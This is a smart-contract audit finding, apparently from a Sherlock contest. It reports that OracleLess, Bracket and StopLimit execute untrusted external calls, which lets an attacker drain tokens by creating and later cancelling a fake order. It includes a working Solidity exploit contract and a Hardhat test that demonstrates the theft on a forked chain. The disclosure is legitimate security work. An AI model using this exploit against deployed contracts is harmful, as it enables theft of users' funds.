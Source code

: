 Fierce Fossilized Swan

High

# Funds can be stolen through untrusted external calls

### Summary

Functions such as `Bracket::performUpkeep`, `StopLimit::performUpkeep` and `OracleLess::fillOrder` can be called by anyone, and accept arbitrary data and target addresses, which are then used to perform a low-level `call` in the `execute` functions. This functionality be used to steal funds from the protocol.

### Root Cause

This code, called from the aforementioned functions, executes calls to untrusted external functions:
* https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L542
* https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L240

There are missing checks on both:
1) whether the target of the call is a trusted contract;
2) whether the parameters passed to the call are not malicious.

The `balanceOf` checks that are used by the caller to decide whether the input and output amounts have been as expected is not sufficient for safe operation, as the attacker can add tokens to the contract during the call, in the form of open orders, which can be closed later to steal tokens from the protocol.

### Internal pre-conditions

1. There are some funds in the contract under attack (Bracket, StopLimit, or OracleLess).

### External pre-conditions

None

### Attack Path

This analyzes `OracleLess::fillOrder` specifically. Attacks on `Bracket::performUpkeep` and `StopLimit::performUpkeep` are similar.

1. Attacker creates an attack contract that implements an interface for filling orders.
2. Attacker creates an order which exchanges `amountIn` for `amountOut` tokens.
3. Attacker calls  `OracleLess::fillOrder` on that order passing the attack contract address as a parameter.
4. In the attack contract called from `OracleLess::fillOrder` -> `OracleLess::execute` -> `StealAttack::fillOrder`, the attacker first  collects `amountIn` input tokens from the `OracleLess` contract.
5. Subsequently, the attacker creates a fake open order with `amountOut` of output tokens.
6. The `OracleLess::createOrder` function takes  `amountOut` of output tokens from the attacker. 
7. The attack contract returns execution to  `OracleLess::execute`, which compares the token balances before and after attack calls, and succeeds, since the output tokens were added by `createOrder`.
8. The function `OracleLess::fillOrder` sends the output tokens to the recipient, as specified in the filled order.
9. The attacker cancels their fake order and collects  `amountOut` of output tokens.

### Impact

The end result of the attack that the protocol loses `amountOut` of output tokens.

By repeating the attack for each token type, the protocol contract will be completely emptied.

### PoC

```solidity
// SPDX-License-Identifier: None
pragma solidity ^0.8.19;
import "./IAutomation.sol";
import "../interfaces/openzeppelin/SafeERC20.sol";
import "../interfaces/openzeppelin/IERC20.sol";

contract StealAttack {
    using SafeERC20 for IERC20;

    IOracleLess oracleless;
    IOracleLess.Order order;
    uint96 fakeOrderId;

    function prepareAttack(uint96 orderId,
                           IERC20 tokenIn,
                           IERC20 tokenOut,
                           uint256 amountIn,
                           uint256 minAmountOut) external {

        order.orderId = orderId;
        order.tokenIn = tokenIn;
        order.tokenOut = tokenOut;
        order.amountIn = amountIn;
        order.minAmountOut = minAmountOut;

        order.tokenOut.safeTransferFrom(msg.sender, address(this), minAmountOut);
    }

    function fillOrder() external {
        oracleless = IOracleLess(msg.sender);

        // remove some in tokens from the oracleless contract
        order.tokenIn.safeTransferFrom(msg.sender, address(this), order.amountIn);

        // put some out tokens in the oracleless contract
        order.tokenOut.safeApprove(msg.sender, order.minAmountOut);
        fakeOrderId = oracleless.createOrder(
            order.tokenOut,
            order.tokenIn,
            order.minAmountOut,
            type(uint256).max,
            address(this),
            25,
            false,
            bytes("")
        );
    }

    function finishAttack() external {
        oracleless.cancelOrder(fakeOrderId);
    }
}
```

```ts
import { AutomationMaster__factory, OracleLess, OracleLess__factory, StealAttack, StealAttack__factory, IERC20__factory, UniswapV3Pool__factory } from "../../typechain-types"
import { currentBlock, resetCurrentArbBlock } from "../../util/block"
import { expect } from "chai"
import { stealMoney } from "../../util/money"
import { DeployContract } from "../../util/deploy"
import { ethers } from "hardhat"
import { s } from "./scope"
import { a } from "../../util/addresser"

describe("Oracle Less", () => {
    const expectedAmountOut = 5600885752n
    const minAmountOut = expectedAmountOut - 10000n
    let orderId: bigint

    before(async () => {
        console.log("STARTING")
        await resetCurrentArbBlock(235660173)
        console.log("Testing on ARB @", (await currentBlock())?.number)

        //connect to signers
        s.signers = await ethers.getSigners()
        s.Frank = s.signers[0]
        s.Alice = s.signers[1]

        s.UniPool = UniswapV3Pool__factory.connect(s.pool, s.Frank)
        s.WETH = IERC20__factory.connect(await s.UniPool.token0(), s.Frank)
        s.USDC = IERC20__factory.connect(await s.UniPool.token1(), s.Frank)
    })

    it("Deploy", async () => {
        s.Master = await DeployContract(new AutomationMaster__factory(s.Frank), s.Frank)
        s.OracleLess = await DeployContract(new OracleLess__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)

        await stealMoney(s.wethWhale, await s.Alice.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        await stealMoney(s.usdcWhale, await s.Alice.getAddress(), await s.USDC.getAddress(), expectedAmountOut)

        // put some funds directly in the OracleLess contract; they will be stolen
        await stealMoney(s.usdcWhale, await s.OracleLess.getAddress(), await s.USDC.getAddress(), expectedAmountOut)
    })

    it("Do Attack", async () => {

        const contractAddy = await s.OracleLess.getAddress();
        const beforeBalance0 = await s.WETH.balanceOf(contractAddy);
        const beforeBalance1 = await s.USDC.balanceOf(contractAddy);

        // Attacker puts in an order
        await s.WETH.connect(s.Alice).approve(await s.OracleLess.getAddress(), s.wethAmount)
        await s.OracleLess.connect(s.Alice).createOrder(
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            s.wethAmount,
            minAmountOut,
            await s.Alice.getAddress(),
            25,
            false,
            "0x"
        )
        const filter = s.OracleLess.filters.OrderCreated
        const events = await s.OracleLess.queryFilter(filter, -1)
        const event = events[0].args
        expect(Number(event[0])).to.not.eq(0, "New order")
        orderId = (event[0])

        const pendingOrders = await s.OracleLess.getPendingOrders()
        const order = pendingOrders[0];

        // create attack contract 
        s.Attack = await DeployContract(new StealAttack__factory(s.Alice), s.Alice)

        // prepare and fund the attack contract
        const attackAddy = await s.Attack.getAddress();
        await s.USDC.connect(s.Alice).approve(attackAddy, expectedAmountOut)
        await s.Attack.connect(s.Alice).prepareAttack(orderId,
                                                      order.tokenIn,
                                                      order.tokenOut,
                                                      order.amountIn,
                                                      expectedAmountOut);

        const attackTxData = (await s.Attack.fillOrder.populateTransaction()).data
        await s.OracleLess.connect(s.Alice).fillOrder(
            0n, orderId, attackAddy, attackTxData)

        // cancel the fake order created during attack
        await s.Attack.connect(s.Alice).finishAttack()

        const afterBalance0 = await s.WETH.balanceOf(contractAddy);
        const afterBalance1 = await s.USDC.balanceOf(contractAddy);

        console.log(`delta0=${afterBalance0 - beforeBalance0}`)
        console.log(`delta1=${afterBalance1 - beforeBalance1}`)

        // output tokens were removed from the contract
        expect(afterBalance0 === beforeBalance0).to.eq(true)
        expect(afterBalance1 === beforeBalance1 - expectedAmountOut).to.eq(true)
    })
})
```

### Mitigation

Do not allow untrusted external calls.